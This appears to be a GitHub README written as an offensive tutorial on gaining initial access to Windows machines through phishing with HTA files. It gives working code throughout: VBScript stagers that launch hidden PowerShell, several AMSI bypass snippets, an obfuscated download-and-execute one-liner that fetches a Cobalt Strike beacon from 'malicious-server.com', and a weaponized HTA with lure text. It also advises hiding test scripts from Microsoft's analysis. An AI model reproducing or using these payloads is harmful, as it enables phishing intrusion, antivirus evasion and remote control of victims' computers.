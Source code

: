 # Gaining initial access with HTA
Instruction on gaining initial access using mshta.exe to execute HTA files

## 1. Overview
**Basic HTA Payload**
```html
<html>
  <head><title>Pwned by zagnox</title></head>
  <body>
  <p>Hello World!</p>
  </body>

  <script language="VBScript">
    Set shell = CreateObject("wscript.Shell")
    shell.run "notepad.exe"
  </script>
</html>
```
The payload above will run benign programs such as notepad or calc. If the operator attempts to drop and execute a beacon, it will most likely get **snagged by Windows Defender or other AV solutions**.

Although HTA attacks have been around for a while they are still a solid **STAGING** mechanism. In this technique I will explain the steps on how to use HTA files as simple stagers to load scripts from remote servers, patch/crash AMSI (Anti-Malware Scan Interfrace) to evade detection and then execute a web scripted delivery by Cobalt Strike to spawn a beacon.

1. Operator delivers the HTA application via email
2. Victim clicks on the application
3. VBScript runs and pulls malicious AMSI patch from remote server
4. Script launches hidden powershell and patches AMSI
5. Patched AMSI powershell session executes Cobalt-Strike beacon from remote server
6. Establish C2 communication with teamserver

---

## 2. Crafting AMSI patching script
The operator has a couple of options to kill AMSI. The laziest option is to generate the script from [amsi.fail](https://amsi.fail/) collection. This script generator uses random trechniques from a collection of scripts. Although amsi.fail generates unique signatues at runtime for each payload they are sometimes snagged by AV. Test the payload in your lab to make sure you are successfully pathcing AMSI before serving it to your target.

NOTE: It is important to **DISABLE Automatic Sample Submission** while experimenting in you lab. You DO NOT WANT your scripts to be sent to Microsoft sandboxes for further analysis.

The other options to patch AMSI are shown below. The powershell snippets can be tweaked and modified in order to execute and kill AMSI. Remember to use obfuscation techniques to evade defender for the scripts below.
- **Memory Patching (In-Memory AMSI Bypass)**

  By default, AmsiScanBuffer returns a status indicating whether a scan was successful. By forcing it to return AMSI_RESULT_CLEAN, all scripts will be marked as safe.
  ```powershell
  [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils') |
  Get-Field -BindingFlags NonPublic,Static -Name 'amsiInitFailed' |
  Set-Value $true
  ```

- **Overwrite AmsiScanBuffer**

  Overwrite AmsiScanBuffer in memory so it always returns 0 (clean).
  ```powershell
  using System;
  using System.Runtime.InteropServices;
  
  class Program
  {
      [DllImport("kernel32")]
      static extern IntPtr GetModuleHandle(string lpModuleName);
  
      [DllImport("kernel32")]
      static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);
  
      [DllImport("kernel32")]
      static extern bool VirtualProtect(IntPtr lpAddress, uint dwSize, uint flNewProtect, out uint lpflOldProtect);
  
      static void Main()
      {
          IntPtr amsiDll = GetModuleHandle("amsi.dll");
          IntPtr amsiScanBuffer = GetProcAddress(amsiDll, "AmsiScanBuffer");
          
          uint oldProtect;
          VirtualProtect(amsiScanBuffer, 0x0010, 0x40, out oldProtect);
          
          // Patch AmsiScanBuffer to return AMSI_RESULT_CLEAN (0)
          Marshal.WriteByte(amsiScanBuffer, 0xC3); // RET instruction
          
          VirtualProtect(amsiScanBuffer, 0x0010, oldProtect, out oldProtect);
      }
  }
  
- **Hooking AMSI API Calls**

  Instead of patching AMSI in memory, you can hook AmsiScanBuffer and return a clean result.

  ```powershell
  $memory = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(1)
  [System.Runtime.InteropServices.Marshal]::WriteByte($memory, 0xC3) # RET instruction
  [System.Runtime.InteropServices.Marshal]::Copy($memory, 0, [System.Runtime.InteropServices.Marshal]::GetFunctionPointerForDelegate(
    [System.Delegate]::CreateDelegate([System.Func[IntPtr, IntPtr, uint, uint]], $memory)), 1)

  ```


A fairly simple way to chain the commands is to embed the Cobalt Strike web-scripted delivery to execute after the script has been executed:
```powershell
[sYStEm.tEXt.enCOdIng]::unICOdE.GetsTrIng([SystEm.conVERT]::fRoMBaSe64string("base64 encode script here")) | IEX; IEX (curl 'http://malicious-server.com/beacon')
```

## 3. Weaponizing the HTA

Once you have a script that will patch AMSI it is time to weaponize the HTA payload:

```html
<html>
  <head><title>BE CREATIVE</title></head>
  <body>
  <p>Hi! This is an important notification!</p>
  </body>

  <script language="VBScript">
    Set shell = CreateObject("wscript.Shell")
    shell.run "powershell -nop -w -hidden -e <base64 this IEX (curl http://malicious-server.com/patch-amsi.ps1)>"
  </script>
</html>
```
## 

![Patching amsi and executing beacon. AV evaded](https://github.com/user-attachments/assets/e66b2048-0a56-4bdc-ad4d-b434f880fb1f)


![CS Beacon](https://github.com/user-attachments/assets/8a4c873c-2f2c-4fab-8a95-df037a8deac1)
